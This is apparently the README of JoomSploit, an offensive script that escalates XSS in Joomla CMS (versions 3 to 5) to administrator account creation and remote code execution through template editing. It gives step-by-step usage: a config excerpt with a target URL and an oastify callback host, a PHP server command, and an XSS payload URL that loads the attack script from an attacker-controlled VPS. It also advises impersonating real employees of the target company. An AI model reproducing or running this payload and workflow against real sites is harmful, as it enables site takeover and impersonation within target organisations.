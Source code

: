 
<h1 align="center">
  <br>
  <img src="https://github.com/nowak0x01/JoomSploit/assets/96009982/f77abced-baca-4ef5-89a4-a949b4ac6806" alt="JoomSploit" width="300">
</h1>
<h4 align="center">Joomla Exploitation Script that elevate XSS to RCE or Others Critical Vulnerabilities</a>.</h4>

<p align="center">
  <a href="#about">About</a>  -
  <a href="#key-features">Key Features</a>  -
  <a href="#how-to-use">How To Use</a>  -
  <a href="#examples">Examples</a>  -
  <a href="#contributing">Contributing</a>
</p>

![screenshot](https://github.com/nowak0x01/JoomSploit/assets/96009982/4e42f24e-2e42-4159-a39c-0884350fa57a)

## About
_**JoomSploit**_ is a script designed to escalate a **Cross-Site Scripting (XSS)** vulnerability to **Remote Code Execution (RCE)** or other's criticals vulnerabilities in Joomla CMS. <br><br>
🌾 **This script provides support for **Joomla** **Versions** **5.X.X**, **4.X.X**, and **3.X.X**.**
<br>

## Key Features

* _**Privilege Escalation**_
  - Creates an user in Joomla.
* _**(RCE) Built-In Templates Edit**_
  - Edit a Built-In Templates in Joomla.
* _**(Custom) Custom Exploits**_
  - Custom Exploits for Third-Party Joomla Plugins.
  
## How To Use
https://github.com/nowak0x01/JoomSploit/assets/96009982/216af695-1d46-4a3a-85aa-17858b49e6f0

<br>

**1\) Clone the Repository**
```bash
git clone https://github.com/nowak0x01/JoomSploit
```

**2\) Edit the script by selecting the desired function and modifying its variable values.** (Example: _**JLCreateAccount**_)
```
// ************************************ ~% Variables %~ ************************************ //

var Target = "http://10.5.87.12:8000/"; // Ex: https://192.168.1.99:6731/joomla/
var Callback = "https://prkiw0jsy7n0dj9qknrm57h9006ruji8.oastify.com/"; // Ex: https://collaborator.oastify.com/ (optional) (only if you want to receive feedback at each stage).

// ************************************ ~% Functions %~ ************************************ //

// JLCreateAccount(); // (Privilege Escalation) - Creates an user in Joomla.
// JLEditTemplates(); // (RCE) - Edit Templates in Joomla.
// CustomExploits(); // (Custom) - Custom Exploits for Third-Party Joomla Plugins.

function JLCreateAccount() {

    /* ************************************************************************************************************************************************ */
    var Username = "nowak";         // (It is recommended to use a valid employee name from the target company). - <Mandatory>
    var Name = "Hudson Nowak";                 // Account name, Ex: Robert Silva. - <Mandatory>
    var Password = `j^QEkyvd7*g3`;          // (Password minimum length: 12) [weak password are allowed]. - <Mandatory>
    var Email = "nowak@example.com";  // Ex: user@company.net (It is recommended to use a business email from the target company) (No email will be sent to the email address entered). - <Mandatory>
    /* ************************************************************************************************************************************************ */
```

**3\) Start a web server**
```bash
php -S 0.0.0.0:80 -t .
```

**4\) Go to the Joomla XSS vector and include** _**JoomSploit.js**_
```
https://example.com/plugin.php?s=<script%20src="//VPS/JoomSploit.js"></script>
```

## Examples
🎋 **_JLCreateAccount()_ - Creates an user in Joomla.**

https://github.com/nowak0x01/JoomSploit/assets/96009982/39311e64-36ba-4e7e-988b-d6c900a823e0

🐉 **_JLEditTemplates()_ - Edit a Built-In Templates in Joomla.**

https://github.com/nowak0x01/JoomSploit/assets/96009982/36dc82ee-d2cf-4f04-93d2-1d01221add19

⭐️ **_CustomExploits()_ - Custom Exploits for Third-Party Joomla Plugins**.<br>
// pending

<br>

# Contributing
If you're interested in contributing, whether by adding new exploit functions to `CustomExploits()` or enhancing the existing code, your efforts would be immensely appreciated. Your contributions will play a key role in making this project even better😊.
<pre>
                               /T /I
                              / |/ | .-~/
                          T\ Y  I  |/  /  _
         /T               | \I  |  I  Y.-~/
        I l   /I       T\ |  |  l  |  T  /
     T\ |  \ Y l  /T   | \I  l   \ `  l Y
 __  | \l   \l  \I l __l  l   \   `  _. |
 \ ~-l  `\   `\  \  \\ ~\  \   `. .-~   |
  \   ~-. "-.  `  \  ^._ ^. "-.  /  \   |
.--~-._  ~-  `  _  ~-_.-"-." ._ /._ ." ./
 >--.  ~-.   ._  ~>-"    "\\   7   7   ]
^.___~"--._    ~-{  .-~ .  `\ Y . /    |
 <__ ~"-.  ~       /_/   \   \I  Y   : |
   ^-.__           ~(_/   \   >._:   | l______
       ^--.,___.-~"  /_/   !  `-.~"--l_ /     ~"-.
              (_/ .  ~(   /'     "~"--,Y   -=b-. _)         JoomSploit (https://github.com/nowak0x01/JoomSploit)
               (_/ .  \  :           / l      c"~o \
                \ /    `.    .     .^   \_.-~"~--.  )
                 (_/ .   `  /     /       !       )/
                  / / _.   '.   .':      /        '
                  ~(_/ .   /    _  `  .-<_
                    /_/ . ' .-~" `.  / \  \          ,z=.
                    ~( /   '  :   | K   "-.~-.______//
                      "-,.    l   I/ \_    __{--->._(==.
                       //(     \  <    ~"~"     //
                      /' /\     \  \     ,v=.  ((
                    .^. / /\     "  }__ //===-  `
                   / / ' '  "-.,__ {---(==-    @Author: Hudson Nowak
                 .^ '       :  T  ~"   ll
                / .  .  . : | :!        \\
               (_/  /   | | j-"          ~^
                 ~-<_(_.^-~"
</pre>
